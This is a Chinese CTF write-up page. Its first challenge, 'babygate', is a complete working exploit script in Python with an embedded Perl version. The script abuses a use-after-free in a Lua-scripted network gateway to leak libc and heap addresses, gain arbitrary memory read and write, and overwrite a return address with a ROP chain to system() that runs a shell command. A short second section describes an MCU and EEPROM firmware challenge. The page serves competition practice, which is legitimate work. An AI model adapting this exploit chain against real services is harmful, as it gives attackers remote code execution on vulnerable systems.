

- [1. babygate(solve)](#1-babygatesolve)
- [2. amcu-dist](#2-amcu-dist)
- [3. ACPU](#3-acpu)
- [4. AGPU](#4-agpu)


# 1. babygate(solve)<br>
关于lua脚本加载的题目，程序逻辑如下:<br>
请AI分析关键逻辑后，给出漏洞点 UAF:<br>


```python
#!/usr/bin/env python3
import argparse
import re
import socket
import subprocess
import struct
import sys
import time
from pathlib import Path


LIBC_UNSORTED_LEAK_OFF = 0x204140
LIBC_ENVIRON_OFF = 0x20AD58
LIBC_SYSTEM_OFF = 0x58750
LIBC_POP_RDI_RET_OFF = 0x10F78B
LIBC_RET_OFF = 0x2882F

# In the xinetd/chroot challenge environment this is stable for the
# lua_pkt_write() call reached by the final W command.
STACK_RET_FROM_ENVIRON = 0x4A0


LUA = r'''
local stage = 0
local leak = nil
local keep = {}
local views = {}
local stale = nil
local rw = nil
local rw_off = 0

local function find_rw(mem)
  local pat = string.char(0x77,0x07,0,0,0,0,0,0)
  local pos = mem:find(pat, 1, true)
  local b1 = string.byte(mem, pos - 8) or 0
  local b2 = string.byte(mem, pos - 7) or 0
  return b1 + b2 * 256, pos - 1 - 16
end

gateway.run(function(conn, pkt)
  if stage == 0 then
    keep[#keep + 1] = string.rep("G", 8192)
    conn:close()
    leak = pkt:tostring()
    stage = 1
    return
  end

  if stage == 1 then
    conn:send(leak:sub(1, 64))
    stage = 2
    return
  end

  local data = pkt:tostring()

  if stage == 2 then
    keep[#keep + 1] = string.rep("H", 8192)
    stale = pkt
    conn:close()
    for i = 1, 240 do
      views[i] = pkt:view(i, 0x777)
    end
    local idx, off = find_rw(stale:tostring())
    rw = views[idx]
    rw_off = off
    stale:write(rw_off, data:sub(1, 24))
    stage = 3
    return
  end

  local cmd = data:sub(1, 1)
  if cmd == "R" then
    stale:write(rw_off, data:sub(2, 25))
    conn:send(rw:tostring())
    return
  end

  if cmd == "W" then
    stale:write(rw_off, data:sub(2, 25))
    rw:write(0, data:sub(26))
    conn:send("OK")
    return
  end
end)
EOF
'''.encode()


def p64(x):
    return struct.pack("<Q", x)


def u64(b):
    return struct.unpack("<Q", b[:8].ljust(8, b"\x00"))[0]


def cfg(addr, length, off=0):
    return p64(addr) + p64(off) + p64(length)


def request(host, port, data, timeout=2.0):
    with socket.create_connection((host, port), timeout=3.0) as s:
        s.settimeout(timeout)
        s.sendall(data)
        out = b""
        while True:
            try:
                chunk = s.recv(65536)
            except TimeoutError:
                break
            except socket.timeout:
                break
            if not chunk:
                break
            out += chunk
        return out


def is_local_host(host):
    return host in {"127.0.0.1", "localhost", "::1", "0.0.0.0"}


def find_badgate_container(service_port):
    try:
        ps = subprocess.run(
            ["docker", "ps", "--format", "{{.ID}}\t{{.Image}}\t{{.Names}}\t{{.Ports}}"],
            check=False,
            capture_output=True,
            text=True,
            timeout=3.0,
        )
    except (OSError, subprocess.SubprocessError):
        return None

    if ps.returncode != 0:
        return None

    candidates = []
    for line in ps.stdout.splitlines():
        parts = line.split("\t", 3)
        if len(parts) != 4:
            continue
        cid, image, name, ports = parts
        label = f"{image} {name}".lower()
        if "badgate" not in label and "gateway" not in label:
            continue
        if f":{service_port}->" not in ports and f"0.0.0.0:{service_port}" not in ports:
            continue
        candidates.append((cid, ports))

    if not candidates:
        return None

    # When only the xinetd entry port is published, the random 10000-12000
    # listener is reachable only from inside the container network namespace.
    for cid, ports in candidates:
        if "10000" not in ports and "12000" not in ports:
            return cid
    return None


PERL_RUNNER = r'''
use strict;
use warnings;
use IO::Select;
use IO::Socket::INET;
use Time::HiRes qw(time);

$| = 1;
binmode STDOUT;

my $LIBC_UNSORTED_LEAK_OFF = 0x204140;
my $LIBC_ENVIRON_OFF = 0x20AD58;
my $LIBC_SYSTEM_OFF = 0x58750;
my $LIBC_POP_RDI_RET_OFF = 0x10F78B;
my $LIBC_RET_OFF = 0x2882F;
my $STACK_RET_FROM_ENVIRON = 0x4A0;

my $LUA = <<'LUA_SCRIPT';
local stage = 0
local leak = nil
local keep = {}
local views = {}
local stale = nil
local rw = nil
local rw_off = 0

local function find_rw(mem)
  local pat = string.char(0x77,0x07,0,0,0,0,0,0)
  local pos = mem:find(pat, 1, true)
  local b1 = string.byte(mem, pos - 8) or 0
  local b2 = string.byte(mem, pos - 7) or 0
  return b1 + b2 * 256, pos - 1 - 16
end

gateway.run(function(conn, pkt)
  if stage == 0 then
    keep[#keep + 1] = string.rep("G", 8192)
    conn:close()
    leak = pkt:tostring()
    stage = 1
    return
  end

  if stage == 1 then
    conn:send(leak:sub(1, 64))
    stage = 2
    return
  end

  local data = pkt:tostring()

  if stage == 2 then
    keep[#keep + 1] = string.rep("H", 8192)
    stale = pkt
    conn:close()
    for i = 1, 240 do
      views[i] = pkt:view(i, 0x777)
    end
    local idx, off = find_rw(stale:tostring())
    rw = views[idx]
    rw_off = off
    stale:write(rw_off, data:sub(1, 24))
    stage = 3
    return
  end

  local cmd = data:sub(1, 1)
  if cmd == "R" then
    stale:write(rw_off, data:sub(2, 25))
    conn:send(rw:tostring())
    return
  end

  if cmd == "W" then
    stale:write(rw_off, data:sub(2, 25))
    rw:write(0, data:sub(26))
    conn:send("OK")
    return
  end
end)
EOF
LUA_SCRIPT

sub p64 {
    return pack("Q<", $_[0]);
}

sub u64 {
    my $b = substr($_[0] . ("\x00" x 8), 0, 8);
    return unpack("Q<", $b);
}

sub cfg {
    my ($addr, $len, $off) = @_;
    $off //= 0;
    return p64($addr) . p64($off) . p64($len);
}

sub send_all {
    my ($sock, $data) = @_;
    while (length($data) > 0) {
        my $sent = $sock->send($data);
        die "send failed\n" unless defined $sent;
        substr($data, 0, $sent, "");
    }
}

sub connect_tcp {
    my ($host, $port) = @_;
    my $sock = IO::Socket::INET->new(
        PeerAddr => $host,
        PeerPort => $port,
        Proto => "tcp",
        Timeout => 3,
    );
    die "connect $host:$port failed: $!\n" unless $sock;
    return $sock;
}

sub read_chunk {
    my ($sock, $timeout, $max) = @_;
    my $sel = IO::Select->new($sock);
    return undef unless $sel->can_read($timeout);
    my $buf = "";
    my $ok = $sock->recv($buf, $max);
    return undef unless defined $ok;
    return $buf;
}

sub request {
    my ($host, $port, $data, $timeout) = @_;
    $timeout //= 2.0;
    my $sock = connect_tcp($host, $port);
    send_all($sock, $data);
    my $out = "";
    while (1) {
        my $chunk = read_chunk($sock, $timeout, 65536);
        last unless defined $chunk;
        last if length($chunk) == 0;
        $out .= $chunk;
    }
    close($sock);
    return $out;
}

sub start_gateway {
    my ($host, $port) = @_;
    my $sock = connect_tcp($host, $port);
    my $prompt = read_chunk($sock, 1.0, 4096);
    send_all($sock, $LUA);

    my $banner = "";
    my $deadline = time() + 5.0;
    while (time() < $deadline) {
        if ($banner =~ /:\s*(\d+)/ || $banner =~ /\b(1[01]\d{3}|12000)\b/) {
            close($sock);
            return int($1);
        }
        my $left = $deadline - time();
        my $chunk = read_chunk($sock, $left > 0.5 ? 0.5 : $left, 4096);
        next unless defined $chunk;
        last if length($chunk) == 0;
        $banner .= $chunk;
    }

    close($sock);
    die "failed to parse listener port from: $banner\n";
}

sub exploit {
    my ($host, $port, $command) = @_;
    my $gate_port = start_gateway($host, $port);
    print "[+] gateway data port: $gate_port\n";

    request($host, $gate_port, "A" x 4095);
    my $leak = request($host, $gate_port, "B");
    die "short leak\n" if length($leak) < 32;

    my $libc_leak = u64(substr($leak, 0, 8));
    my $libc_base = $libc_leak - $LIBC_UNSORTED_LEAK_OFF;
    my $heap_leak = u64(substr($leak, 16, 8));
    printf("[+] libc leak: %#x\n", $libc_leak);
    printf("[+] libc base: %#x\n", $libc_base);
    printf("[+] heap leak: %#x\n", $heap_leak);

    my $environ_addr = $libc_base + $LIBC_ENVIRON_OFF;
    my $stage2 = cfg($environ_addr, 8);
    $stage2 .= "C" x (4095 - length($stage2));
    request($host, $gate_port, $stage2);

    my $environ = u64(request($host, $gate_port, "R" . cfg($environ_addr, 8)));
    my $ret_addr = $environ - $STACK_RET_FROM_ENVIRON;
    printf("[+] environ: %#x\n", $environ);
    printf("[+] target ret slot: %#x\n", $ret_addr);

    my $ret = $libc_base + $LIBC_RET_OFF;
    my $pop_rdi = $libc_base + $LIBC_POP_RDI_RET_OFF;
    my $system = $libc_base + $LIBC_SYSTEM_OFF;
    my $cmd = $command . "\x00";
    my $cmd_addr = $ret_addr + 8 * 5;
    my $rop = p64($ret) . p64($pop_rdi) . p64($cmd_addr) . p64($system) . p64(0) . $cmd;

    printf("[+] system: %#x\n", $system);
    print "[+] command: '$command'\n";
    return request($host, $gate_port, "W" . cfg($ret_addr, length($rop)) . $rop, 5.0);
}

my ($host, $port, $command) = @ARGV;
$host //= "127.0.0.1";
$port //= 9999;
$command //= "cat /flag >&0";

my $out = exploit($host, int($port), $command);
print $out;
print "\n" if length($out) && substr($out, -1) ne "\n";
'''


def container_has(container, binary):
    result = subprocess.run(
        ["docker", "exec", container, "sh", "-lc", f"command -v {binary} >/dev/null 2>&1"],
        check=False,
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    return result.returncode == 0


def run_inside_container(container, host, port, command):
    if container_has(container, "python3"):
        runner = "python3"
        payload = Path(__file__).read_bytes()
    elif container_has(container, "perl"):
        runner = "perl"
        payload = PERL_RUNNER.encode()
    else:
        raise RuntimeError(f"container {container} has neither python3 nor perl")

    argv = [
        "docker",
        "exec",
        "-i",
        container,
        runner,
        "-",
        "127.0.0.1",
        str(port),
    ]
    if runner == "python3":
        argv += ["--cmd", command, "--no-docker-fallback"]
    else:
        argv += [command]
    return subprocess.run(argv, input=payload, check=False).returncode


def start_gateway(host, port):
    with socket.create_connection((host, port), timeout=3.0) as s:
        s.settimeout(1.0)
        try:
            s.recv(4096)
        except socket.timeout:
            pass
        s.sendall(LUA)

        banner = b""
        deadline = time.time() + 5.0
        while time.time() < deadline:
            m = re.search(rb":\s*(\d+)", banner)
            if not m:
                m = re.search(rb"\b(1[01]\d{3}|12000)\b", banner)
            if m:
                return int(m.group(1))

            s.settimeout(max(0.1, min(0.5, deadline - time.time())))
            try:
                chunk = s.recv(4096)
            except socket.timeout:
                continue
            if not chunk:
                break
            banner += chunk

    raise RuntimeError(f"failed to parse listener port from: {banner!r}")


def exploit(host, port, command):
    gate_port = start_gateway(host, port)
    print(f"[+] gateway data port: {gate_port}", flush=True)

    # Stage 0: close conn, copy freed 0x1000 chunk contents into Lua string.
    request(host, gate_port, b"A" * 4095)

    # Stage 1: send the saved unsorted-bin leak.
    leak = request(host, gate_port, b"B")
    if len(leak) < 32:
        raise RuntimeError(f"short leak: {leak!r}")

    libc_leak = u64(leak[:8])
    libc_base = libc_leak - LIBC_UNSORTED_LEAK_OFF
    heap_leak = u64(leak[16:24])
    print(f"[+] libc leak: {libc_leak:#x}", flush=True)
    print(f"[+] libc base: {libc_base:#x}", flush=True)
    print(f"[+] heap leak: {heap_leak:#x}", flush=True)

    # Stage 2: make the freed packet buffer overlap many pkt:view() userdata
    # objects, then corrupt the first overlapping view into rw.
    environ_addr = libc_base + LIBC_ENVIRON_OFF
    request(host, gate_port, cfg(environ_addr, 8).ljust(4095, b"C"))

    environ = u64(request(host, gate_port, b"R" + cfg(environ_addr, 8)))
    ret_addr = environ - STACK_RET_FROM_ENVIRON
    print(f"[+] environ: {environ:#x}", flush=True)
    print(f"[+] target ret slot: {ret_addr:#x}", flush=True)

    ret = libc_base + LIBC_RET_OFF
    pop_rdi = libc_base + LIBC_POP_RDI_RET_OFF
    system = libc_base + LIBC_SYSTEM_OFF

    cmd = command.encode() + b"\x00"
    cmd_addr = ret_addr + 8 * 5
    rop = b"".join([
        p64(ret),
        p64(pop_rdi),
        p64(cmd_addr),
        p64(system),
        p64(0),
        cmd,
    ])

    print(f"[+] system: {system:#x}", flush=True)
    print(f"[+] command: {command!r}", flush=True)
    out = request(host, gate_port, b"W" + cfg(ret_addr, len(rop)) + rop, timeout=5.0)
    return out


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("host", nargs="?", default="127.0.0.1")
    ap.add_argument("port", nargs="?", type=int, default=9999)
    ap.add_argument("--cmd", default="cat /flag >&0")
    ap.add_argument("--container", help="run the network part inside this Docker container")
    ap.add_argument("--no-docker-fallback", action="store_true")
    args = ap.parse_args()

    if args.container:
        raise SystemExit(run_inside_container(args.container, args.host, args.port, args.cmd))

    if not args.no_docker_fallback and is_local_host(args.host):
        container = find_badgate_container(args.port)
        if container:
            print(f"[*] detected unpublished random listener; using docker exec in {container}", flush=True)
            raise SystemExit(run_inside_container(container, args.host, args.port, args.cmd))

    out = exploit(args.host, args.port, args.cmd)
    sys.stdout.buffer.write(out)
    if out and not out.endswith(b"\n"):
        sys.stdout.buffer.write(b"\n")


if __name__ == "__main__":
    main()
```
轻松拿下。<br>

# 2. amcu-dist<br>
是个固件题目，年赛的时候有遇到类似的，正好看看这种题目一般是怎么做的。<br>
架构图:<br>

逻辑如下：
```
1. 选手电脑通过tcp链接访问部署了附件server.py
2. server.py接受了选手的请求认证后，会做如下3件事：
      2.1 GPIO控制单板启动电源
      2.2 GIPO控制CH32V003单板进入烧录模式
      2.3 通过usb烧录固件 firmware.bin到单板上
      2.4 对MCU的UART端口转发
3. 单板内部也有结构划分
      3.1 MCU，单板的逻辑处理单元
      3.2 I2C，（Inter-Integrated Circuit，读作“I-squared-C”）是一种用于芯片之间通信的串行总线协议
      3.3 EEPROM，Electrically Erasable Programmable Read-Only Memory，电可擦除可编程只读存储器
    EEPROM只能由MCU通过I2C进行读写。
        CH32V003             EEPROM                 作用
        ---------            ------              ---------
        SDA  ---------------- SDA                I²C 的数据线，用来传输数据
        SCL  ---------------- SCL                I²C 的时钟线，用来控制数据传输节奏
        GND  ---------------- GND                地线，电路的电压参考点，通常接电源负极
        3.3V ---------------- VCC                电源正极，用来给芯片供电

4. 选手通过操作MCU，尝试读取EEPROM中的flag。
```


# 3. ACPU<br>


# 4. AGPU<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>